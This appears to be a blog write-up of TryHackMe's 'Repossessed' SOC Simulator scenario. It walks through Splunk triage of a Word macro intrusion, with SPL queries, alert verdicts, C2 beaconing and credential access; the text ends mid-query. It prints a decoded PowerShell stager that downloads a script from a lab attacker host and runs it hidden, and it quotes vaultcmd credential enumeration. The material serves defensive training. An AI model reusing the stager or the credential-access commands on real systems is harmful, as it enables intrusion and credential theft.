This is my writeup for the **Repossessed** scenario in TryHackMe's SOC Simulator. Unlike standard TryHackMe rooms with guided questions per log entry, the simulator drops you into a live alert queue backed by Splunk. Alerts arrive over time, Criticals take priority over Highs, and every True Positive requires a structured L1 case report covering the 5Ws, affected entities, IOCs, and containment steps.

## Scenario Overview

TryHatMe Studios is preparing to ship an upcoming game, *NeuralNexus*. During the morning shift, SIEM alerts start firing on a Marketing workstation (`THM-MSMITH`) after Microsoft Word spawns an unexpected process chain.

**Objectives:**

1. Identify what caused the unusual activity observed on the workstation.
2. Determine whether the workstation was communicating with an external party.
3. Determine how the actor gained access to additional systems on the network.
4. Assess whether any data was accessed or removed from the network.



## Alert Queue Summary

Nine alerts fired across the run (`6352` through `6360`). Seven trace a single intrusion from initial macro execution on `THM-MSMITH` to build theft on `THM-SREYES`. The other two (`6352` and `6358`) are benign events firing on those same hosts while the intrusion is active.

| Alert ID | Rule Name | Severity | Category | Host | Verdict |
| --- | --- | --- | --- | --- | --- |
| `6352` | Suspicious Child Process Spawned (`ai.exe`) | High | Execution | `THM-MSMITH` | **False Positive** |
| `6353` | Suspicious Child Process Spawned (`powershell.exe -Enc`) | High | Execution | `THM-MSMITH` | **True Positive** |
| `6354` | Suspicious Outbound Connection Following Document Execution | High | Command and Control | `THM-MSMITH` | **True Positive** |
| `6355` | Anomalous Credential Vault Access (`vaultcmd.exe`) | High | Credential Access | `THM-MSMITH` | **True Positive** |
| `6356` | Rapid Domain and Host Enumeration from Non-Administrative Host | High | Discovery | `THM-MSMITH` | **True Positive** |
| `6357` | Suspicious Remote Logon and Service Creation (`SvcUpdate`) | Critical | Lateral Movement | `THM-SREYES` | **True Positive** |
| `6358` | Suspicious External Connection Following Archive Creation (`crashlogs.7z`) | Critical | Exfiltration | `THM-SREYES` | **False Positive** |
| `6359` | Suspicious Archive Utility Execution on Workstation (`7z.exe`) | High | Collection | `THM-SREYES` | **True Positive** |
| `6360` | Suspicious External Connection Following Archive Creation (`nx_build_beta.7z`) | Critical | Exfiltration | `THM-SREYES` | **True Positive** |

In the live queue I triaged Critical alerts ahead of Highs, which meant investigating lateral movement and exfiltration on `THM-SREYES` first and then tying them back to the initial compromise on `THM-MSMITH`. Below, I walk through the chain in chronological order so the progression from host to host is easier to follow.

## SIEM Orientation & Telemetry Quirks

Before digging into individual alerts, I ran a quick discovery search to see how logs were ingested and which fields were extracted:

```spl
index=* "svchost_update.ps1"
| stats count by index, sourcetype, source, host
```



Several ingestion quirks affect every query in this environment:

- All logs sit in `index=main`, `sourcetype=_json`, `source=eventcollector`. Splunk's top-level `host` field records the HEC collector IP (`10.103.241.41:8989` in Session 1, `10.103.175.249:8989` in Session 2), while the actual endpoint name (`THM-MSMITH.tryhatmestudios.thm` or `THM-SREYES.tryhatmestudios.thm`) lives inside the JSON body. Searching `host=THM-*` returns nothing, so I pivoted on `ProcessGuid`, `ParentProcessGuid`, source/destination IPs, and raw strings instead.
- `event_id` is the simulator's internal record counter, not the Windows Event ID. The Windows or Sysmon event identifier is in `EventCode` (`1` = Process Create, `3` = Network Connect, `11` = File Create, `22` = DNS Query, `4104` = PowerShell Script Block, `4697` = Service Installed).
- `Sid: S-1-5-18` on Sysmon records reflects the local `SYSTEM` account of the Sysmon service writing the event, not the user running the process. Always read the `User` field instead.
- `ProcessGuid` tracks a specific process instance across `EventCode` 1, 3, 11, and 22 without risk of PID reuse.
- Alert headers and the JSON `timestamp` field use local time (`21:xx`) rather than Splunk's UTC `_time` (`20:xx`). PowerShell `EventCode=4104` timestamps are +1 hour ahead of `_time`, while Sysmon `timestamp` values sit ~59 minutes ahead (`+1h` minus `~58s`). I standardized on Splunk's UTC `_time` across all notes and reports.

> I completed this scenario across two simulator sessions (Oct 23 and Oct 25). Session 1 is the baseline timeline used throughout this post. Screenshots captured during Session 2 show `_time` shifted forward by ~1 minute 23 seconds (for example, `20:21:13` instead of `20:19:49`) and collector IP `10.103.175.249:8989`; all PIDs, ProcessGuids, commands, and relative intervals are identical across both runs, and I note the Session 1 equivalent whenever a Session 2 screenshot appears.
{: .prompt-info }

## Stage 1: Initial Access & Execution (`THM-MSMITH`)

### Alert 6352: Microsoft Office `ai.exe` Child Process (False Positive)

The chain starts on `THM-MSMITH.tryhatmestudios.thm` under user `TRYHATME\m.smith`. `WINWORD.EXE` (PID `6184`, `ProcessGuid` `{3af46175-3906-6a90-921d-000000001200}`) opened a macro-enabled Word document from the user's Downloads folder and spawned `ai.exe` (PID `6304`), triggering Alert `6352`:

- Parent: `"C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\m.smith\Downloads\Q3_PressKit_Feedback.docm" /o ""`
- Child (`Image`): `C:\Program Files (x86)\Microsoft Office\root\vfs\ProgramFilesCommonX64\Microsoft Shared\Office16\AI\ai.exe`
- CommandLine: `...ai.exe "FEA77156-AD12-420B-A641-3B46EBBA133B" "89226371-A46D-4D73-8A1B-6DA74A52D901" "6184" "...WINWORD.EXE" "WordCombinedFloatieLreOnline.onnx"`
- ProcessGuid: `{3af46175-3907-6a90-961d-000000001200}`



Looking up the SHA256 hash (`C217D74AABFD0DBBF3BDCDE5F077DABDC62EA8D927AA26E96B9AFA9CB3F1FA80`) on VirusTotal returned 0/71 detections. `ai.exe` is Microsoft's signed Local AI Host for Office 16, which modern Office builds launch legitimately from `ProgramFilesCommonX64\Microsoft Shared\Office16\AI\` to load `.onnx` models (`WordCombinedFloatieLreOnline.onnx`) when a document opens.



Because the parent document was a `.docm` file out of `Downloads`, I still pivoted on `WINWORD.EXE`'s `ParentProcessGuid` to check what else that Word instance spawned:

```spl
index=main ParentProcessGuid="{3af46175-3906-6a90-921d-000000001200}"
| table _time EventCode Image CommandLine
```



One millisecond after `ai.exe` started (`20:21:11.500` in this Session 2 screenshot, corresponding to `~20:19:47` in Session 1), the same `WINWORD.EXE` process launched 32-bit PowerShell (`20:21:11.501`) with a hidden encoded command.

> **Why Alert 6352 is a False Positive:** Even though `Q3_PressKit_Feedback.docm` carried a malicious macro, Alert `6352` fired specifically on `ai.exe`, a benign Office helper binary. During my live run I closed `6352` as True Positive because of the malicious sibling process, and the simulator marked that classification **Incorrect**. Each alert has to be graded on the exact event that triggered it; the macro payload is covered separately by Alert `6353`.
{: .prompt-warning }

### Alert 6353: Encoded PowerShell Stager (True Positive)

Alert `6353` caught that second child process from `WINWORD.EXE`:

- Image: `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe` (PID `8572`, 32-bit, matching 32-bit Office x86)
- ProcessGuid: `{3af46175-3907-6a90-951d-000000001200}`
- User / LogonId: `TRYHATME\m.smith`, Medium integrity, `0x9C30E0`
- CommandLine: `powershell.exe -NoP -W Hidden -Enc JABzAHQAYQBnAGUAcgAgAD0A...`



`powershell.exe` itself is a clean Microsoft binary (`SHA256: B7327B511CBADC9C471F5AA7438E47FFEC3430145C8D23E0E3256183295CA974`), so the classification rests on parent-child context and command-line flags: Word has no legitimate reason to launch a hidden, Base64-encoded PowerShell command when opening a downloaded `.docm` file.

PowerShell's `-Enc` flag expects Base64-encoded UTF-16LE text, which decodes cleanly offline:

```powershell
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String("<base64_string>"))
```

PowerShell Script Block Logging (`EventCode=4104`) also recorded the decoded payload on the host. `ScriptBlockText` was not extracted as a separate Splunk field, so I queried `Message` directly (captured in Session 2, where this event logged at `20:21:13` rather than Session 1's `20:19:49`):

```spl
index=main EventCode=4104 "paylink-cdn.thm" earliest="10/23/2026:20:20:00" latest="10/23/2026:20:23:00"
| table _time Message
```



Decoded stager:

```powershell
$stager = "$env:TEMP\svchost_update.ps1"
(New-Object Net.WebClient).DownloadFile('http://paylink-cdn.thm:8067/svchost_update.ps1', $stager)
Start-Process powershell.exe -ArgumentList "-NoP -W Hidden -ExecutionPolicy Bypass -File `"$stager`"" -WindowStyle Hidden
```

The macro stager pulls Stage 2 (`svchost_update.ps1`) from `hxxp://paylink-cdn[.]thm:8067/svchost_update.ps1` into `%TEMP%` and launches it in a new hidden PowerShell process:

| Element | Meaning | Analyst Takeaway |
| --- | --- | --- |
| `SysWOW64\...\powershell.exe` | Legitimate 32-bit PowerShell 5.1 | LOLBin; matches 32-bit `WINWORD.EXE` parent |
| `-NoP` | `-NoProfile` | Skips user profiles for faster startup and less logging |
| `-W Hidden` | `-WindowStyle Hidden` | Hides the console window from the user (`T1564.003`) |
| `-ExecutionPolicy Bypass` | Overrides script execution policy for this process | Allows unsigned script execution (`T1059.001`) |
| `svchost_update.ps1` in `%TEMP%` | User-writable temp directory | Imitates Windows' legitimate `svchost.exe` (`T1036.005`) |
| `MC0CD~1.SMI` | Windows 8.3 short path for `m.smith` | Benign path aliasing, useful when matching events across logs |

## Stage 2: Command and Control (`THM-MSMITH`, Alert 6354)

Seconds after the macro ran, outbound TCP traffic from `THM-MSMITH` (`10.60.10.22`) to `45[.]147[.]230[.]131:8067` triggered Alert `6354` (`event_id 46159`, `SourcePort 54331`) under the stager PID `8572`.



### DNS Resolution (`EventCode=22`)

To tie `45[.]147[.]230[.]131` back to the domain hardcoded in the stager, I checked Sysmon DNS query logs for `paylink-cdn[.]thm`:

```spl
index=main sourcetype=_json EventCode=22 QueryName="paylink-cdn.thm"
| table _time event_id QueryName QueryResults Image ProcessId
| sort _time
```



`QueryResults` returned `::ffff:45.147.230.131` (IPv4-mapped IPv6), linking `paylink-cdn[.]thm` to `45[.]147[.]230[.]131` across three PowerShell instances over the course of the incident:

- PID `8572` (`SysWOW64\powershell.exe` on `THM-MSMITH`): the `-Enc` stager (logged by Sysmon at `20:19:51`, a second after its `20:19:50` TCP connection due to Event 22 flush timing)
- PID `9356` (`SysWOW64\powershell.exe` on `THM-MSMITH`): Stage 2 `svchost_update.ps1`
- PID `14264` (`System32\powershell.exe` on `THM-SREYES`): the same script later executed via remote service

### Connection Volume & Beaconing Pattern

Because network detection rules group repeated connections to the same destination into a single alert, I aggregated all `EventCode=3` records from `10.60.10.22` to `45[.]147[.]230[.]131` by `ProcessGuid`:

```spl
index=main EventCode=3 DestinationIp="45.147.230.131" SourceIp="10.60.10.22"
| stats count min(_time) as first max(_time) as last by ProcessGuid Image DestinationPort
| convert ctime(first) ctime(last)
```



Although the alert pointed to PID `8572`, that stager process only opened 1 connection to fetch `svchost_update.ps1`. The sustained C2 channel belonged to its child process, PID `9356` (`{3af46175-390a-6a90-991d-000000001200}`), which made 52 connections over ~20 minutes (`20:21:17` to `20:41:36` UTC in the Session 2 screenshot above, corresponding to `20:19:53` to `20:40:13` UTC in Session 1) on a ~30-second beacon interval over plain HTTP on port `8067`.



Script Block logs (`EventCode=4104`) for `svchost_update.ps1` also showed `Send-C2` and `Poll-C2` helper functions calling `Invoke-RestMethod` against `$c2` with a 10-second timeout.

### IP Reputation Check

External threat intel lookups on `45[.]147[.]230[.]131` gave split results:

- VirusTotal: 10/92 security vendors flagged the IP as malicious (malware/phishing), hosted under `AS30823` (aurologic GmbH, Germany), with historical ArcSight community notes referencing KEGTAP/SINGLEMALT.
- AbuseIPDB: 0% abuse confidence (2 reports), listed under Frankfurt web hosting.





AbuseIPDB relies mostly on honeypot and firewall reports of inbound scanning or brute-force noise, so a dedicated C2 listener that only receives callbacks will often sit at 0%. Combined with the VirusTotal hits, a Word-spawned script polling an unapproved external VPS every 30 seconds over HTTP/`8067` is enough to confirm C2.

## Stage 3: Credential Access & Domain Discovery (`THM-MSMITH`)

### Alert 6355: Anomalous Credential Vault Access (True Positive)

Two seconds after `svchost_update.ps1` (PID `9356`) started on `THM-MSMITH`, it ran `VaultCmd.exe` (PID `10872`) under `TRYHATME\m.smith` (Medium integrity), raising Alert `6355`:

- CommandLine: `"C:\Windows\Sysnative\vaultcmd.exe" "/listcreds:Windows Credentials"`
- ParentImage: `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe` (PID `9356`)
- ParentCommandLine: `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoP -W Hidden -ExecutionPolicy Bypass -File "C:\Users\MC0CD~1.SMI\AppData\Local\Temp\svchost_update.ps1"`



Two technical details stand out in the process timeline around this event:

1. The `C:\Windows\Sysnative` virtual folder only exists for 32-bit WOW64 processes reaching native 64-bit `System32` binaries, which matches the 32-bit `SysWOW64` PowerShell chain inherited from 32-bit Word.
2. `vaultcmd /listcreds` only lists stored credential targets and usernames, not plaintext secrets. However, 400 milliseconds earlier (`20:19:52.018`), PID `9356` also spawned `csc.exe /noconfig /fullpaths @"C:\Users\m.smith\AppData\Local\Temp\pvrwsrjt.cmdline"`. `csc.exe` firing out of `%TEMP%` under PowerShell is the signature of `Add-Type` compiling inline C# (`T1027.004`), commonly used to P/Invoke Windows `CredRead` / DPAPI routines in memory and dump actual credential blobs from Credential Manager.

### Alert 6356: Rapid Domain Enumeration Burst (True Positive)

Five minutes into the C2 session (`20:24:52` UTC), Alert `6356` triggered on `net.exe user /domain` (PID `9744`) from `THM-MSMITH`. Because discovery alerts collapse command bursts, I queried all events referencing `svchost_update.ps1` in chronological order to see the full sequence executed by PID `9356`:

```spl
index=main sourcetype=_json "svchost_update.ps1"
